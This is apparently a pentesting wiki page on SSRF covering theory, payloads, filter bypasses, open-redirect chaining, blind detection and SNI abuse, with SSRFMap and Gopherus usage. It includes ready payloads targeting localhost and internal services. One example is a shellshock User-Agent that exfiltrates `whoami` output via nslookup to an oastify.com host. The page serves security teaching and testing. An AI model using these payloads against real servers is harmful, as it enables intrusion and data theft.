

# SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).


SSRF is to [file inclusion](file-inclusion/) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.


## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.&#x20;

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed



Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :&#x20;

<pre><code>http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
<strong>http://2130706433 # Decimal version of localhost
</strong>http://0x7f000001/ # Hexadecimal version of localhost
</code></pre>

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.


The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)




## Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :&#x20;

* Using the `@` character in a URL like this :&#x20;
  * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :&#x20;
  * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :&#x20;
  * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.


## [ORED (Open Redirect)](ssrf.md#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](ssrf.md#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

<figure><figcaption></figcaption></figure>



### Blind SSRF vulnerabilities <a href="#blind-ssrf-vulnerabilities" id="blind-ssrf-vulnerabilities"></a>

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.&#x20;

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.


An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.


### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to **exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field**. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.

<pre class="language-bash"><code class="lang-bash"># using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles
<strong>
</strong><strong># using Gopherus
</strong>gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
</code></pre>

## References







{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}


